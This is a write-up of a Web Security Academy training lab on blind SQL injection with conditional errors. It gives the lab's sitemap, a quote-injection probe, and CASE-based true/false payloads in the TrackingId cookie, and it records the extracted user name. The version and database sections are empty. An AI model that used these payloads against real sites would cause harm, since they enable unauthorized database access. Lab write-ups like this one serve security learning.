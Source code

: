 # Lab: Blind SQL injection with conditional errors

## Sitemap:

Path: `/`

Path: `/login`

Path: `/my-account`

Path: `/filter?category=Corporate+gifts`

Path: `/product?productId=2`

## Identification:

URL: `https://0ab8007d033a0f3780cb08ad00eb007b.web-security-academy.net/`

Payload: `Cookie: TrackingId=WpxCYwlTPGZT1jK5'; session=MZWBd0eG4IKK4gR65brcZWs8wcBWPkiX`

![](./Images/ID0.png)

![](./Images/ID1.png)

## Exploitation:

### Preparation:

Statement that evals to true:

```
Cookie: TrackingId=9yFpW07KdXAHHysH'+and+1=(CASE+WHEN+(1=1)+THEN+1+ELSE 1/0+END)--+- ; session=lMYctbHZgE7pbolxmoUdSIJJCTf4Gv4P
```

![](./Images/Preparation0.png)

Statement that evals to false:

```
Cookie: TrackingId=9yFpW07KdXAHHysH'+and+1=(CASE+WHEN+(1=9)+THEN+1+ELSE 1/0+END)--+- ; session=lMYctbHZgE7pbolxmoUdSIJJCTf4Gv4P
```

![](./Images/Preparation1.png)

### Get_version:

### Get_user:

```
The user is: PETER
```

![](./Images/User0.png)

### Get_databse:


